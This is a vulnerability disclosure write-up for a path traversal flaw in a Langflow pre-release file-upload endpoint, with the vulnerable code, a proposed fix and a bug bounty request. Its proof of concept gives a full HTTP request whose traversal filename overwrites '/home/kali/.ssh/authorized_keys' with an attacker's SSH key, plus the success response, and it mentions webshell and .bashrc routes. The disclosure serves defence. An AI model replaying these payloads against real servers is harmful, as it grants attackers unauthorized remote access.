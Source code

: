 ```yaml
---
layout: post
title:  "Remote Code Execution via Arbitrary File Overwrite Using Path Traversal in langflow Pre-release"
date:  2024-05-26 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Remote Code Execution via Arbitrary File Overwrite Using Path Traversal in Langflow Pre-release.


## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Version

> Pre-release version: 1.0 Alpha - v1.0.0a37

## Description

The post `/upload/{flow_id}` endpoint in the Langflow [upload_file](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/api/v1/files.py#L47) is vulnerable to a path traversal vulnerability through the `filename` parameter which allows the uploading of arbitrary files. The `filename` is then directly append to a directory path [without sanitized](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/services/storage/local.py#L34) and the file content is writen to dest location. An attacker can upload and overwrite ANY file on the filesystem. This can lead to remote code execution in many different ways.

The vulnerable function [`save_file`](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/services/storage/local.py#L34):
```
async def save_file(self, flow_id: str, file_name: str, data: bytes):
        folder_path = self.data_dir / flow_id
        folder_path.mkdir(parents=True, exist_ok=True)
        file_path = folder_path / file_name

        try:
            with open(file_path, "wb") as f:
                f.write(data)
            logger.info(f"File {file_name} saved successfully in flow {flow_id}.")
        except Exception as e:
            logger.error(f"Error saving file {file_name} in flow {flow_id}: {e}")
            raise e
```

## Proof of Concept

In this proof of concept, we will be gaining remote code execution by uploading our SSH key to the `authorized_keys` file. There are many other ways to achieve remote code execution via a file upload, such as overwriting binaries, writing to .bashrc, ....

We proof this vulnerability by logging into the `kali` user running the langflow python API and checking that at this moment the `/home/kali/.ssh/authorized_keys` file does not exist.

```
kali@fc7d9ff6a411:/# cat /home/kali/.ssh/authorized_keys
cat: /home/kali/.ssh/authorized_keys: No such file or directory
```

An attacker can now send the following request to the webserver. This request will upload the attacker's public RSA key to the `authorized_keys` file.

We start a simple server using tutorial from [https://github.com/langflow-ai/langflow?tab=readme-ov-file#-installation](https://github.com/langflow-ai/langflow?tab=readme-ov-file#-installation). Note that we use pre-release versoin:

```
# Install the pre-release version
python -m pip install langflow --pre --force-reinstall
```
Start web interface, the default port is `7860`

```
python -m langflow run
```

Then open the Langflow web interface in browser, create a new project and in the project add a file component, click the file upload button, select random text file with burpsuite intercepting the upload request. We can see the file name and file content in the multipart request body. 

![file-component](/assets/images/bughunter/langflow/file-component.png)

![file-upload](/assets/images/bughunter/langflow/file-upload.png)


Change the multipart `filename` to `../../../../../../../../../home/kali/.ssh/authorized_keys` and file content to our `authorized_keys` content. Repeat the upload request.

```
POST http://127.0.0.1:7860/api/v1/files/upload/7e774022-0991-47f7-83a1-ef127d439755 HTTP/1.1
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJjODFiMWM1Yy1lYzgxLTRkZmQtOGFiZS0yMGIxNDBmOWY3NjkiLCJleHAiOjE3NDgyMjk3NDJ9.PrPNZGIOgBql3mDBTWqmdpg4G1zYeaB-087GH5NHvYE
Cache-Control: no-cache
Connection: close
Cookie: access_token_lf=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJjODFiMWM1Yy1lYzgxLTRkZmQtOGFiZS0yMGIxNDBmOWY3NjkiLCJleHAiOjE3NDgyMjk3NDJ9.PrPNZGIOgBql3mDBTWqmdpg4G1zYeaB-087GH5NHvYE
Origin: http://127.0.0.1:7860
Pragma: no-cache
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Host: 127.0.0.1:7860
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=--------------------------636165805457578805665550
Content-Length: 647

----------------------------636165805457578805665550
Content-Disposition: form-data; name="file"; filename="../../../../../home/kali/.ssh/authorized_keys"
Content-Type: application/octet-stream

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCov7XaSjvanAr+rs14Vz7Nn0KvVee57F5FYm8zKjmxYRb2s11r8L5L2IQPg4bMuvGcp+bouJfagdHQ/KoXD/l1IG3ZIggf67thPzGdH9gyShk2fpc1JSADkPT6WPeGAXSLh+0+InyzUqPe5oPA9zrvUDDYCKRG7NZ2A9++7hgs1DsNbJdxvYwy+8WMJAIrcfN+5QBxVHqUhUVFamyCoeu1DlalAnBSKwI61UMl0GkXN9DKMHgxSY0BMDT+AJr/F9Jwem5cTkVIr+RA9v901obfywdI/3TmPTwGwxiiZYhiWDWOaMNhyTXBWmIyBNN0usH9GtFtNPezcuUHBzsgHRcT js@dell
----------------------------636165805457578805665550--
```

The response indicates success with the uploaded file path.

```
HTTP/1.1 201 Created
Connection: close
Content-Length: 146
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: http://127.0.0.1:7860
Content-Type: application/json
Date: Sun, 26 May 2024 03:48:37 GMT
Server: uvicorn
Vary: Origin

{"flowId":"7e774022-0991-47f7-83a1-ef127d439755","file_path":"7e774022-0991-47f7-83a1-ef127d439755/../../../../../home/kali/.ssh/authorized_keys"}
```

We can verify the success by again checking the `/home/kali/.ssh/authorized_keys` file.

```
kali@fc7d9ff6a411:/# cat /home/kali/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCov7XaSjvanAr+rs14Vz7Nn0KvVee57F5FYm8zKjmxYRb2s11r8L5L2IQPg4bMuvGcp+bouJfagdHQ/KoXD/l1IG3ZIggf67thPzGdH9gyShk2fpc1JSADkPT6WPeGAXSLh+0+InyzUqPe5oPA9zrvUDDYCKRG7NZ2A9++7hgs1DsNbJdxvYwy+8WMJAIrcfN+5QBxVHqUhUVFamyCoeu1DlalAnBSKwI61UMl0GkXN9DKMHgxSY0BMDT+AJr/F9Jwem5cTkVIr+RA9v901obfywdI/3TmPTwGwxiiZYhiWDWOaMNhyTXBWmIyBNN0usH9GtFtNPezcuUHBzsgHRcT js@dell
```

## Fix

Use [UUID instead of origin file name to store the file](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/api/v1/files.py#L47):

```
@router.post("/upload/{flow_id}", status_code=HTTPStatus.CREATED)
async def upload_file(
    file: UploadFile,
    flow_id: UUID = Depends(get_flow_id),
    storage_service: StorageService = Depends(get_storage_service),
):
    try:
        flow_id_str = str(flow_id)
        file_content = await file.read()
        # fix the path travesal problem
        file_name = hashlib.sha256(file_content).hexdigest()
        folder = flow_id_str
        await storage_service.save_file(flow_id=folder, file_name=file_name, data=file_content)
        return UploadFileResponse(flowId=flow_id_str, file_path=f"{folder}/{file_name}")
    except Exception as e:
        raise HTTPException(status_code=500, detail=str(e))
```

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.


### SSH Access

On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

### Web Servers

On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)

### Any bounty

Can I ask for a bug bounty award or a CVE id for this bug? Thank you very much!

## Reference

[https://huntr.com/bounties/6be8d4e3-67e6-4660-a8db-04215a1cff3e](https://huntr.com/bounties/6be8d4e3-67e6-4660-a8db-04215a1cff3e)

## Occurrences

[https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/api/v1/files.py#L47](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/api/v1/files.py#L47)

[https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/services/storage/local.py#L34](https://github.com/langflow-ai/langflow/blob/98b011f46d3a683ef3e038dd550fed5b42af7478/src/backend/base/langflow/services/storage/local.py#L34)
